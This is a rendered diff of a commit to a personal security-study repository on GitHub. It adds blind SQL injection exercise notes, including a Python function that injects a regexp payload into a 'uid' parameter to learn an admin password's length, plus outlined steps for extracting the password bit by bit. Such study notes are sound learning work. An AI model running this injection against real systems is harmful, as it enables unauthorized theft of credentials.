

Before and after one commit to Hueok/study_security, a Markdown page: sql/sum.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/sql/sum.md
+++ b/sql/sum.md
@@ -171,4 +171,22 @@ first, code find the length of the password and then, using for loop with range(
 > ```
 <br />
 
-## Exercise
+## Exercise : blind sqli advanced
+#### step 1. find length of password
+```py
+def find_length():
+    i = 1;
+    while True:
+        query = f"admin' and upw regexp '.{{{i}}}"
+        resp = requests.get(f"{host}?uid={query}")
+        if 'exist' not in resp.text:
+            return i-1;
+        i += 1
+```
+#### step 2. find bit length of each password character
+#### step 3. extract bits of each password character
+#### step 4. convert bits to letter
+I didn't think about `step 2` fully, and `step 3` and `step 4` were hard to me to code.
+But the concept of step 2 is important I think. I try without this concept. Thanks to it, I was confused with what bytes the character has.
+So I used for-loop so that the bytes is fixed at one in python exploit code. In fact, ascii only take 1-byte while korean take 3-bytes in utf-8.
+To solve it, use while-loop like `step 1` to take non-fixed length bits by ascending count var(like `bit_length+=1`).
````
